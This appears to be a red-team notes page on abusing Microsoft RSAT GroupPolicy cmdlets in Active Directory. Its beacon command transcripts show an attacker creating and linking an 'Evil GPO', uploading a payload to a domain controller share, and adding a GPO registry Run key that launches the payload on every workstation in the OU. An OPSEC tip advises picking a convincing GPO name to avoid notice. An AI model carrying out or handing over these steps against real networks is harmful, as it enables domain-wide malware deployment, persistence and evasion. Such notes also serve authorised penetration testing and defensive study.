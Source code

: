 # Remote Server Administration Tools (RSAT)

RSAT is a management component provided by Microsoft to help manage components in a domain. Since it's a legitimate management tool and often found on management workstations and servers, it can be useful to leverage without having to bring in external tooling.

The GroupPolicy module has several PowerShell cmdlets that can be used for administering GPOs, including:

-   New-GPO: Create a new, empty GPO.
-   New-GPLink: Link a GPO to a site, domain or OU.
-   Set-GPPrefRegistryValue: Configures a Registry preference item under either Computer or User Configuration.
-   Set-GPRegistryValue: Configures one or more registry-based policy settings under either Computer or User Configuration.
-   Get-GPOReport: Generates a report in either XML or HTML format.

## Installations
Check if the GroupPolicy module is installed:
`Get-Module -List -Name GroupPolicy | select -expand ExportedCommands`.
As a local admin install it with:
`Install-WindowsFeature –Name GPMC`

## [[Group Policy (GPO)]]
Create a new GPO and immediately link it to the target OU:

#OPSEC The GPO will be visible in the Group Policy Management Console and other RSAT GPO tools, so make sure the name is "convincing".
``````beacon
beacon> getuid
[*] You are EDU\doe

beacon> powershell New-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=edu,DC=evil,DC=corp"

GpoId       : d9de5634-cc47-45b5-ae52-e7370e4a4d22
DisplayName : Evil GPO
Enabled     : True
Enforced    : False
Target      : OU=Workstations,DC=edu,DC=evil,DC=corp
Order       : 4
``````

## Distribute Malware
1. Identify share [[PowerView#Identify Shares]] or create share [[Create Share]]
2. Upload malware
``````beacon
beacon> cd \\dc-2\software
beacon> upload C:\Payloads\pivot.exe
beacon> ls

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 281kb    fil     03/10/2022 13:54:10   pivot.exe
``````
3. Create GPO (be very carefull what you do)
``````beacon
beacon> powershell Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "%COMSPEC% /b /c start /b /min \\dc-2\software\pivot.exe" -Type ExpandString

DisplayName      : Evil GPO
DomainName       : edu.evil.corp
Owner            : EDU\doe
Id               : d9de5634-cc47-45b5-ae52-e7370e4a4d22
GpoStatus        : AllSettingsEnabled
Description      : 
CreationTime     : 5/26/2022 2:35:02 PM
ModificationTime : 5/26/2022 2:42:08 PM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 1, SysVol Version: 1
WmiFilter        :
``````
4. Wait. Every machine will typically refresh their GPOs automatically every couple of hours.




```meta
requirements: 
results: 
opsec: 
oss: #win
source: Windows additional features
description: Help administrate AD environments
```